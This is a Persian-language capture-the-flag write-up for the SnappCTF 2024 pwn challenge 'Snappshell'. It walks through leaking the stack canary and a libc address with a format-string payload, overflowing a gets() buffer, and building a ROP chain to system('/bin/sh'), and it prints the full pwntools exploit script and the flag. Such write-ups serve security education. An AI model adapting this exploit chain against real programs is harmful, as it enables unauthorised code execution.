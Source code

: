 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - PWN
  - Exploit
  - Shell
  - ROP
  - Pwntools
  - Canary
  - BufferOverflow
---
```

# Snappshell

<center>
![challenge](Snappshell-1.png)
</center>

در این چالش با یک فایل فشرده رو به رو هستیم که شامل یک فایل باینری و یک Dockerfile هست.
در ابتدا از طریق دستور checksec با چنین تصویر ترسناکی رو به رو میشیم! :) 

<center>
![Snappshell-2.png](Snappshell-2.png)
</center>

بعد از اینکه فایل باینری رو با gdb و ghidra بررسی میکنیم متوجه میشیم که هیچ تابعی برای [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) کردن وجود نداره و همچنین فعال بودن [NX](https://en.wikipedia.org/wiki/NX_bit) متوجه میشیم که نیاز به شل گرفتن از برنامه هست ولی خب چطوری باید این کارو کرد؟!
برای اینکه به این هدفمون دست پیدا کنیم نیازه تا از تکنیک [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) برای دور زدن NX استفاده کنیم.
یکی از موانع سر راه همونطوری که توی عکس بالا هم پیداست فعال بودن یک مکانیسم امنیتی دیگه به اسم [Stack Canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/) هست.
برای اینکه یک قدم رو به جلو حرکت کنیم اول سعی میکنیم تا Canary رو دور بزنیم.
بعد از اینکه توابع به کار رفته توی برنامه رو دقیق تر با ghidra بررسی میکنیم چشممون به تابع printf ای میوفته (توی تابع echo برنامه، هایلاتش کردم توی تصویر زیر) که آسیب پذیری [Format String](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/) رو داره و احتمالا میتونیم از این طریق به مقدار cookie و... که توی استک موجود هستن دست پیدا کنیم.

<center>
![Snappshell-3.png](Snappshell-3.png)
</center>

بعد از کلی سر و کله زدن با این آسیب پذیری (و یا خودکار کردن روندش با یک کد پایتون ساده) به ی همچین ساختاری میرسیم.

`%31$p`

با فرستادن یک همچین استرینگی به سمت تابع echo برنامه ، خیلی راحت مقدار cookie رو به دست میاریم.

<center>
![Snappshell-4.png](Snappshell-4.png)
</center>

بعد از اینکه canary رو اوکی کردیم میریم سراغ قسمت سخت ماجرا یعنی پیدا کردن gadget های مناسب و استفاده ازشون برای ساخت زنجیره ROP امون و اینکه چطوری میشه این زنجیره رو به خورد برنامه داد. 

جواب ما توی تابع find_index هست. توی این تابع با یک gets رو به رو هستیم و به صورت دیفالت وقتی این تابع رو میبینیم باید یاد آسیب پذیری [BufferOverflow](https://ctf101.org/binary-exploitation/buffer-overflow/) بیوفتیم.

<center>
![Snappshell-5.png](Snappshell-5.png)
</center>


برای این قسمت که باید بدونین به چه gadget هایی نیاز دارید و دستتون بیاد حدودا که چطوری باید ROP رو اوکی کنید (و یکمم خودتون تلاش کنین) ارجاعتون میدم به لینک های زیر:  
[Bypassing Canary & PIE](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)

[ROP - Leaking LIBC address](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)

[ROP: bypass NX, ASLR, PIE and Canary](https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/)

از جمله مواردی که نیاز میشه اینجا بهش توجه کنین این هست برای استفاده از gadget ها احتمالا نیازتون میشه که از libc  درستی استفاده کنید. واسه اینکار باید به اون Dockerfile دقت میکردید و بعد از وصل شدن به docker سعی میکردید تا libc اصلی رو کپی کنید روی سیستم خودتون. دستور زیر میتونه کار رو دربیاره :

`. docker cp 4fd9a29bfcdc:/usr/lib/x86_64-linux-gnu/libc.so.6 `

بعد از این شما libc رو دارید و تنها کافیه تا برای پیدا کردن pop و sh و ret و system  از ابزار ROPgadget و یکمم pwntools استفاده کنید.  یک نمونه رو هم میتونید توی تصویر زیر ببینید: 
<center>
![Snappshell-6.png](Snappshell-6.png)
</center>

در نهایت بعد از همه این قضایا به exploit زیر میرسیم :
```python
from pwn import *

def index(s):
    p.sendlineafter(b'4- exit\n', b"3")
    p.sendline(s)
    return p.readline().rstrip()

def echo(s):
    p.sendlineafter(b'4- exit\n', b"1")
    p.sendlineafter(b'Enter your input\n', s.encode())
    return p.readline().strip()

#p = remote('91.107.177.236', 3117)
p = process('./shell_patched')
libc = ELF('./libc.so.6', checksec = False)

libc_add = echo(f'%33$p')

canary = p64(int(echo(f'%31$p'), 16))

libc_add = p64(int(libc_add, 16))

libc_add = int.from_bytes(libc_add, byteorder = 'little')

libc.address = (libc_add - 0x1e40) - 0x0000000000028000

pop = libc.address + 0x000000000002a3e5

ret = libc.address + 0x0000000000029139

final_payload = b'A' * 19 + b'SNAPP' + canary + b'\x00' * 8 +  p64(pop) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(ret) + p64(libc.sym[b'system'])

p.sendlineafter(b'4- exit\n', b"3")
p.sendline(final_payload)

p.interactive()
p.close()
```



??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Sn4Pp_sH3ll_leT_m3_!!nn}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۶
	